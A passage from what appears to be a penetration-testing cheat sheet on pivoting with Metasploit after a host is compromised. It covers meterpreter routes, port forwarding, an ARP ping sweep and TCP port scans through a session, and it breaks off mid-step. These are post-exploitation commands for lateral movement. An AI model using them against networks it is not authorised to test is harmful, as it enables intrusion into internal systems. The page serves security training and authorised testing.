 ```bash
route add 192.168.14.0 255.255.255.0 3 
# Meterpreter delete route for 192.168.14.0/24 via Session number.
route delete 192.168.14.0 255.255.255.0 3 
# Meterpreter delete all routes
route flush 
```

### Port forward with metasploit <a href="#port-forward-with-metasploit" id="port-forward-with-metasploit"></a>

We can also forward ports using metasploit. Say that the compromised machine is running services that are only accessible from within the network, from within that machine. To access that port we can do this in meterpreter:

```
portfwd add -l <attacker port> -p <victim port> -r <victim ip>
portfwd add -l 3306 -p 3306 -r 192.168.222
```

Now we can access this port on our machine locally like this.

```
nc 127.0.0.1 3306
```

#### Ping-sweep the network <a href="#ping-sweep-the-network" id="ping-sweep-the-network"></a>

First we want to scan the network to see what devices we can target. In this example we already have a meterpreter shell on a windows machine with SYSTEM-privileges.

```
meterpreter > run arp_scanner -r 192.168.1.0/24
```

This command will output all the devices on the netowork.

#### Scan each host <a href="#scan-each-host" id="scan-each-host"></a>

Now that we have a list of all available machines. We want to portscan them.

We will to that portscan through metasploit. Using this module:

```
use auxiliary/scanner/portscan/tcp
```

If we run that module now it will only scan machines in the network we are already on. So first we need to connect us into the second network.

On the already pwn machine we do

```
ipconfig
```

Now we add the second network as a new route in metasploit. First we background our session, and then do this:
